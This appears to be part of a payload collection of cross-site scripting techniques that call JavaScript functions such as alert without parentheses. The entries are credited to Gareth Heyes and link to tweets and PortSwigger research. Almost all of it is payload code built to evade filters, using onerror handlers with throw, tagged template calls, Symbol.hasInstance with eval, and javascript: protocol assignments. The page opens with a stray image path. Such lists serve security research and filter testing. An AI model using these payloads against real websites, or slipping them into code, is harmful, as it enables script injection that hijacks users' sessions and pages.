     Reflect.apply.call`${alert}${undefined}${[23]}`

---

[Garethheyes](https://twitter.com/garethheyes/status/1536796812073476097?s=20&t=dPlXor6lWkKtDil629FLJg)

    navigation.navigate`javascript:alert\x2823\x29`

---

[Garethheyes](https://twitter.com/garethheyes/status/1408510651321012227?)

    var{haha:onerror=alert}=0;throw 1
    var{a:onerror}={a:alert};throw 1

---

[Garethheyes](https://twitter.com/garethheyes/status/1128974215682637825)

    'alert\x2823\x29'instanceof{[Symbol.hasInstance]:eval}

---
Only Chrome [Garethheyes](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

    onerror=eval;throw'=alert\x2823\x29';
    
---

[Garethheyes](https://twitter.com/garethheyes/status/1126526480614416395)

    {onerror=alert}throw 23

----

[Garethheyes](https://twitter.com/garethheyes/status/1519042089429999617)

    throw{},onerror??=alert,"XSS"??123

----


[Garethheyes](https://twitter.com/garethheyes/status/1606307100212154368?s=20&t=eIysWGLwjjIQwQE-AgV2Vw)

    http://example.com/?%0aalert(23)
    location.protocol='javascript:'

----

[Garethheyes](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

    [].sort.call`${alert}23`

----

[Garethheyes](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
